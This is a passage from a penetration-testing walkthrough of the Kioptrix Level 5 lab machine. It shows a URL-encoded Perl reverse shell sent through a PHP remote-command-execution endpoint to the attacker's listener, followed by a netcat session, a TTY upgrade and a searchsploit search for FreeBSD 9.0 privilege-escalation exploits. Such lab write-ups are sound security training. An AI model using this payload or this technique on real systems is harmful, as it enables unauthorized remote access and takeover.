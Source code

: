 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%205/Images/id.png?raw=true)

### Low Privilege Shell

Exploiting remote command execution using [perl reverse
shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet):

```
http://192.168.20.148:8080/phptax/data/rce.php?cmd=perl+-e+%27use+Socket%3B%24i%3D%22192.168.20.144%22%3B%24p%3D443%3Bsocket%28S%2CPF_INET%2CSOCK_STREAM%2Cgetprotobyname%28%22tcp%22%29%29%3Bif%28connect%28S%2Csockaddr_in%28%24p%2Cinet_aton%28%24i%29%29%29%29%7Bopen%28STDIN%2C%22%3E%26S%22%29%3Bopen%28STDOUT%2C%22%3E%26S%22%29%3Bopen%28STDERR%2C%22%3E%26S%22%29%3Bexec%28%22%2Fbin%2Fsh+-i%22%29%3B%7D%3B%27
```

Catching reverse shell and upgrading the shell to TTY shell:

```bash
root@kali:~# nc -nvlp 443
listening on [any] 443 ...
connect to [192.168.20.144] from (UNKNOWN) [192.168.20.148] 48185
sh: can't access tty; job control turned off
$ whoami
www
$ perl -e 'exec "/bin/bash";'
```

Privilege Escalation
--------------------

### Enumeration

Confirming the target’s operating system/kernel:
```bash
$ uname -a
FreeBSD kioptrix2014 9.0-RELEASE FreeBSD 9.0-RELEASE #0: Tue Jan  3 07:46:30 UTC 2012     root@farrell.cse.buffalo.edu:/usr/obj/usr/src/sys/GENERIC  amd64
```

### Vulnerability Identification
Using searchsploit to find appropriate vulnerability in exploit-db database.

```bash
root@kali:~/vulnhub/kioptrix_5# searchsploit freebsd 9.0
-------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                      |  Path
                                                                    | (/usr/share/exploitdb/)
-------------------------------------------------------------------- ----------------------------------------
FreeBSD 9.0 - Intel SYSRET Kernel Privilege Escalation              | exploits/freebsd/local/28718.c
FreeBSD 9.0 < 9.1 - 'mmap/ptrace' Local Privilege Escalation        | exploits/freebsd/local/26368.c
-------------------------------------------------------------------- ----------------------------------------
```
